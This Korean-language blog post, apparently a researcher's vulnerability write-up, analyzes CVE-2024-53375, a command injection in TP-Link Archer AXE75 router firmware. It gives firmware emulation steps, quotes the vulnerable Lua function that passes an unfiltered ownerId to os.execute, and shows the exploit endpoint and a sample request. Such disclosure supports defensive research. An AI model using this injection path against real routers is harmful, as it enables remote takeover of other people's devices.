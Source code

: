 ```yaml
---
layout: post
title: "CVE-2024-53375"
author: "Bugeun"
tags: CVE
---
```


<h1>TP-Link Archer Router RCE</h1>

&nbsp;
<h2>>취약점 정보</h2>> 

CVE-2024-53375<br>
TP-Link Archer Router<br> 
유형: OS Command Injection<br>
대상: AXE75 Router Firmware<br>

&nbsp;
<h2>>환경 빌드</h2>>



<h4>펌웨어 링크</h4>
https://www.tp-link.com/kr/support/download/archer-axe75/#Firmware

1. 펌웨어 다운로드
2. binwalk로 라우터 파일 시스템 추출
    
    ```python
    binwalk -e 펌웨어.bin
    ```
    
3. squash-fs 폴더로 이동
4. qemu-arm-static을 /squashfs-root/usr/bin 폴더로 이동
5. sudo mount --bind /dev ./dev && sudo mount --bind /proc ./proc 실행
6. sudo chroot . bin/bash 실행 후 ubusd & 실행
7. sudo chroot . usr/bin/qemu-arm-static /usr/sbin/uhttpd -f -h /www -r Archer_AXE300 -x /cgi-bin -t 120 -T 30 -A 1 -n 3 -R -p 0.0.0.0:80 실행
8. 127.0.0.1:80으로 공유기 페이지 접속

&nbsp;
<h2>>취약점 식별</h2>

```python
function AVIRA_GATHER:tmp_get_sites(app_form)
	local data = json.decode(app_form.data)
	local res = {}
	local result = {}

	debug("")
	debug("===> opcode 0x0523: tmp_get_sites")

	local ownerId = data.ownerId	--int
	local day = data.date			--string, today/yesterday
	local siteType = data.type		--string website type, block/visit
	local startIndex = data.startIndex	--int
	local amount = data.amount		--int

	-- NOTE: get response data
	-- PROC_PCTL	= "/proc/pctl/"
	-- PROC_BLOCK	= "/proc/block/block_insight"
	-- Init response data
	result.startIndex = startIndex
	result.amount = amount
	result.sum = 0
	result.websiteList = {}
	if siteType == "visit" then
		if startIndex == 0 then
			os.execute("rm -f /tmp/visitList")
			os.execute("cp " .. PROC_PCTL .. ownerId .. " /tmp/visitList")
```

라우터의 백신 소프트웨어인 Avira에서 발생되는 Command Injection 버그이다. 

TP-LINK는 luci를 기반으로 추가적인 사용자 정의 라이브러리를 구성하는데, 해당 취약점은 백신 소프트웨어 라이브러리인 avira.lua에서 정의된 함수인 tmp_get_sites()에서 취약점이 발생된다.

temp_get_sites() 함수는 os.execute()로 visitList를 작성하는 과정에서 ownerId 변수에 명령을 필터링 하지 않으므로 RCE가 가능하다. 

![Image](https://github.com/user-attachments/assets/e9c99056-1541-4954-a758-fbcbd1a794b5)

본 함수는 smart_network.lua에서 tmp_get_sites()를 사용한다. 

```python
	tmp_avira = {
		["getOwnerInList"] = {cb = tmp_get_ownerinlist},
		["addOwnerInList"] = {cb = tmp_add_ownerinlist},
		["delOwnerInList"] = {cb = tmp_del_ownerinlist},
		["getTimelimit"] = {cb = tmp_get_limit},
		["setTimelimit"] = {cb = tmp_set_limit},
		["getFilterInfo"] = {cb = tmp_get_filterinfo},
		["setFilterInfo"] = {cb = tmp_set_filterinfo},
		["modifyBaseInfo"] = {cb = tmp_modify_baseinfo},
		["getDeviceList"] = {cb = tmp_get_devicelist},
		["bonusTimeSet"] = {cb = tmp_set_bonustime},
		["ownerClientListSet"] = {cb = tmp_set_devicelist},
		["getFreeFilterInfo"] = {cb = tmp_get_freefilterinfo},
		["setFreeFilterInfo"] = {cb = tmp_set_freefilterinfo},
		["getFamilyTimeInfo"] = {cb = tmp_get_familytimeinfo},
		["setFamilyTimeInfo"] = {cb = tmp_set_familytimeinfo},
		["getInsightTimeUsage"] = {cb = tmp_get_usage},
		["getInsightData"] = {cb = tmp_get_data},
		["getInsightSites"] = {cb = tmp_get_sites}
    }
```

smart_network.lua에서 정의된 테이블 목록이며 [”getInsightSites”] Key로 취약 함수를 호출한다. 

다만 smart_network.lua의 엔드포인트는 /admin/smart_network?form=tmp_avira로, 공유기 페이지 관리자 권한이 필요하다. 

```lua
function tmp_get_sites(app_form)
	if not app_form then
		return invalid_args()
	end

	local iavira = require "luci.model.avira"
	local avira = iavira.AVIRA_GATHER()
	return avira:tmp_get_sites(app_form)
end
```

[”getInsightSites”] Key를 통해 호출된 취약 함수는 위에서 언급한 사용자 정의 라이브러리인 luci.model.avira에서 Import 한다. 

&nbsp;
<h2>>익스플로잇</h2>

```
http://<target>/cgi-bin/luci/;stok=<stok>/admin/smart_network?form=tmp_avira
```

엔드 포인트로의 페이로드 구성은 위와 같다. stok은 관리자 토큰을 입력한다.

```
POST /cgi-bin/luci/;stok=f0fe15297563086d096a8a10f81fe9a4/admin/cloud_account?form=auto_update_remind HTTP/1.1
Host: 127.0.0.1
Content-Length: 171
sec-ch-ua-platform: "Windows"
Accept-Language: ko-KR,ko;q=0.9
sec-ch-ua: "Not:A-Brand";v="24", "Chromium";v="134"
sec-ch-ua-mobile: ?0
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/134.0.0.0 Safari/537.36
Accept: application/json, text/javascript, */*; q=0.01
Content-Type: application/x-www-form-urlencoded
Origin: http://127.0.0.1
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://127.0.0.1/webpages/index.html?t=302e97ae
Accept-Encoding: gzip, deflate, br
Cookie: sysauth=462694d851946ee1ee1e5ee948b345c9
Connection: keep-alive

sign=52d0b9ec882944af61b0a2a8841862e2d49f2f1b34b3b680e6166027832b1b636415346897de4a39987cd877f532d2639163e751874debc3f876b92f6086ecf0&data=poz4Qie%2FSxDVW%2BbbnFsguQ%3D%3D
```

엔드 포인트에 HTTP 요청을 보내면 data= 으로 JSON 데이터를 보내게 된다. 이 때 위에서 얘기한 JSON의 opration에 getInsightSites 키값을 넣고 데이터에 공격 페이로드를 입력하게되면 취약 함수를 트리거하여 RCE가 가능하다.